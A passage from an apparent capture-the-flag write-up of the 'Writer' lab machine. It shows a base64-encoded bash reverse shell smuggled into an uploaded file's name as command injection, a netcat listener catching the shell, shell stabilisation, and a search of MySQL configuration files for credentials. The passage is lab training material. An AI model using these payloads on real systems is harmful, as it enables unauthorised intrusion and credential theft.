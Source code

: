```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/3000 0>&1"' | base64
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+
JjEi
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ touch '1.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+JjEi| base64 -d | bash`;'
```

Afterwards, we will upload the malicious image file and intercept the file upload request. We will then change the request body accordingly.

![File upload request intercepted by Burp](../assets/writer/burp_upload)

## Obtaining user flag

Now that we have obtained the reverse shell, we will now stabilize the shell. we also realize that we have only gained access to ```www-data``` and do not have sufficient privileges to read the user flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000             
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 49678
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@writer:/$ export TERM=xterm
export TERM=xterm
www-data@writer:/$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@writer:/$ 
```

Let's first try to find out the users that can be logged into this terminal. We discover that ```john``` and ```kyle``` can both be authenticated.

```
www-data@writer:/$ cd home
cd home
www-data@writer:/home$ ls
ls
john  kyle
www-data@writer:/home$ 
```

After navigating around the terminal, we discover a ```maria.cnf```file inside ```/etc/mysql``` that contains credentials for us to access the database. 

```
www-data@writer:/home$ cd /etc/mysql
cd /etc/mysql
www-data@writer:/etc/mysql$ ls
ls
conf.d  debian-start  debian.cnf  mariadb.cnf  mariadb.conf.d  my.cnf  my.cnf.fallback
www-data@writer:/etc/mysql$ cat mariadb.cnf
cat mariadb.cnf
# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
```